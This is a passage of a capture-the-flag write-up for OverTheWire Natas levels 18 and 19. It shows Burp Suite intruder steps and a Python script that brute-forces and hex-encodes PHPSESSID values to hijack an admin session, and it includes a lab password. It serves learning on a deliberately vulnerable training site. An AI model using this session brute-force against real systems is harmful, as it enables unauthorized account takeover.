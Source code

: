 ```
</body>
</html>

Completed!
```

Most of the previous ones can be done via Burp suite as well, but this tends to be slow as they throttle for free edition. For learning purposes:

```
Set Firefox proxy settings for 127.0.01:8080

Intercept http://natas18.natas.labs.overthewire.org/index.php and send to intruder.

In intruder, we only need to capture ยง the number for PHPSESSID, so we can remove the ยง from the others. E.g. keep Cookie: PHPSESSID=ยง275ยง

now in the payload tab, we set the numbers for 0-640

in the options tab, we extract grep item for the response of the page, now start the attack!
```

### Level 19

We can analyse the PHPSESSID to see a pattern. Can you see it? After 2d, a=61 and b=62... This is in hex, and 2d represents "-". The only part we have to guess is the thing before the "-", using the previous codes.

```
username=
PHPSESSID=3438352d

username=a
PHPSESSID=3132352d61

username=b
PHPSESSID=3338382d62

username=ab
PHPSESSID=3631372d6162
```

```
#!/usr/bin/python

import requests

target = 'http://natas19:4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs@natas19.natas.labs.overthewire.org/'
trueStr = 'You are an admin.'

r = requests.get(target, verify=False)

print 'This might take a while'

for i in range(0, 641):
    cookies = dict(PHPSESSID=(str(i)+'-admin').encode('hex'))
    r = requests.get(target, cookies=cookies)
    print 'Testing for session =' + str(i)

    if r.content.find(trueStr) != -1:
        print 'Found it! Session =' + str(i)
        print r.content
        break

print 'Completed!'

```